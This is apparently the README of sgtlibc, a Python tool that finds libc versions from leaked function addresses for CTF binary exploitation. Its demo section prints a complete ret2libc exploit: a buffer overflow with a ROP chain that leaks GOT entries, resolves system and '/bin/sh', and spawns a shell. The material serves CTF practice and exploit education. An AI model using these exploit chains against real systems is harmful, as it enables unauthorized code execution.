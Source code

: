

<p align="center">
    <a href="https://github.com/serfend/sgtlibc/"><img alt="pypi version" src="https://visitor-badge.glitch.me/badge?page_id=serfend/sgtlibc&left_text=views" /></a> 
    <a href="https://pypi.python.org/pypi/sgtlibc/"><img alt="pypi version" src="https://img.shields.io/pypi/v/sgtlibc.svg" /></a> 
    <a href="https://pypistats.org/packages/sgtlibc"><img alt="pypi download" src="https://img.shields.io/pypi/dm/sgtlibc.svg" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub release" src="https://img.shields.io/github/release/serfend/sgtlibc.svg?style=flat-square" /></a>
    <a href="https://github.com/serfend/sgtlibc/releases"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/serfend/sgtlibc/total.svg?style=flat-square&color=%2364ff82" /></a>
    <a href="https://github.com/serfend/sgtlibc/commits"><img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/serfend/sgtlibc.svg?style=flat-square" /></a>
    <!-- <a href="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml"><img alt="GitHub Workflow Status" src="https://github.com/serfend/sgtlibc/actions/workflows/pytest.yml/badge.svg" /></a> -->
</p>





![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)![Ubuntu](https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white)![Kali](https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white)![FreeBSD](https://img.shields.io/badge/-FreeBSD-%23870000?style=for-the-badge&logo=freebsd&logoColor=white)![Deepin](https://img.shields.io/badge/Deepin-007CFF?style=for-the-badge&logo=deepin&logoColor=white)![Debian](https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white)![Cent OS](https://img.shields.io/badge/cent%20os-002260?style=for-the-badge&logo=centos&logoColor=F0F0F0)

# What?

[sgtlibc](https://github.com/serfend/sgtlibc) is a a offline python-lib for search libc function.



## Install

```shell
pip install sgtlibc
```



## Usage

```shell
usage: main.py [-h] [-d [DUMP ...]] [-i [INDEX]] [-u [UPDATE]] [funcs_with_addresses]

for search version of libc.you can use like:`sgtlibc puts:aa0+read:140 --dump system binsh` or in python , like : `py:import sgtlibc;s = sgtlibc.LibcSearcher();s.add_condition('puts',0xaa0)`

positional arguments:
  funcs_with_addresses  specify `func-name` and `func address` , split by `|`,eg: puts:aa0+read:140 , its means func-put's address = 0xaa0;func-read addr = 0x140 (default: None).

options:
  -h, --help            show this help message and exit
  -d [DUMP ...], --dump [DUMP ...]
                        select funcs to dump its info (default: ['__libc_start_main_ret', 'system', 'dup2', 'read', 'write', 'str_bin_sh']).
  -i [INDEX], --index [INDEX]
                        db index on multi-database found occation (default: 0).
  -u [UPDATE], --update [UPDATE]
                        update current libc database from internet , need non-microsoft-windows environment (default: False).
```





## Quick Start

- in cmd.exe` or `/bin/sh`

```shell
sgtlibc puts:aa0
sgtlibc puts:aa0+read:140
sgtlibc puts:aa0+read:140 --dump system binsh
```

- in `python3`

```python
import sgtlibc
s = sgtlibc.Searcher()
s.add_condition('puts', 0xaa0)
s.add_condition('read',0x140)
print(s.dump())
print(s.dump(['system','str_bin_sh']))
```



## Example

- `main args` specify `func-name` and `func address` ,**SHOULD split by `|` **

  eg: `puts:aa0+read:140` which means:

  - func-`puts` address = `0xaa0`
  - func-`read` address =` 0x140`

- `--update` is for update libc database from internet base on `libc-database` , **require non-microsoft-window**  system



- run [python code above](/#/Quick Start) , you'll get output-result like following shows:

![image-20220605212842313](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605212842313.png)

- run command in terminal , you'll get output-result like following shows:

  ![image-20220605213023151](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220605213023151.png)

- use in `pwntools`

```python
from pwn import * # should run pip install pwntools before
import sgtlibc
s = libc.Searcher()
puts_addr = 0xff1234567aa0 # from leak data
s.add_condition('puts',puts_addr)
libc = s.dump() # search libc , if returns multi-result ,default use index-0's result
offset = puts_addr - libc[sgtlibc.s_puts]  # puts_write
system_addr = p64(libc[sgtlibc.s_system] + offset)
binsh_addr = p64(libc[sgtlibc.s_binsh] + offset)
```



## CTF Problem Solve DEMO

[view all sameple files](https://github.com/serfend/sgtlibc/tree/main/samples/libc-leak/x64-babyrop)

- use exploit code

```python
import sgtlibc
from sgtlibc.gamebox import *
set_config(GameBoxConfig(
    is_local=True, file='./babyrop2', remote='192.168.0.1:25462',
    auto_load=True, auto_show_rop=True, auto_show_summary=True,
    auto_start_game=True
))
s = sgtlibc.Searcher()
elf = client.elf
payload_exp = b'a' * (28 + 4) + p00(0xdeadbeef)  # overflow position
def leak(func: str):
    payload = payload_exp + p00(elf.rop['rdi']) + p00(elf.got[func]) + \
        p00(elf.plt['printf']) + p00(elf.symbols['main'])
    sl(payload)
    rl()
    data = rc(6).ljust(8, b'\0')
    data = uc(data)
    s.add_condition(func, data)
    return data
leak('printf')
leak('read')
data = s.dump(db_index=2)  # choose your system index
system_addr = s.get_address(sgtlibc.s_system)
binsh_addr = s.get_address(sgtlibc.s_binsh)
log.info(f'system_addr:{hex(system_addr)}')
log.info(f'binsh_addr:{hex(binsh_addr)}')
payload = payload_exp + p00(elf.rop['rdi']) + p00(binsh_addr) + \
    p00(system_addr) + p00(0xdeadbeef)
sl(payload)
interactive()
```

- result

![image-20220609134743902](https://raw.githubusercontent.com/serfend/res.image.reference/main/image-20220609134743902.png)





## Notice

> default libc database is update long-time ago , we fully recommanded to update it by run `sgtlibc --update`



## Status

![Alt](https://repobeats.axiom.co/api/embed/7d8920fddffed00ee7feb8d172bc7b48c86da3b8.svg "Repobeats analytics image")

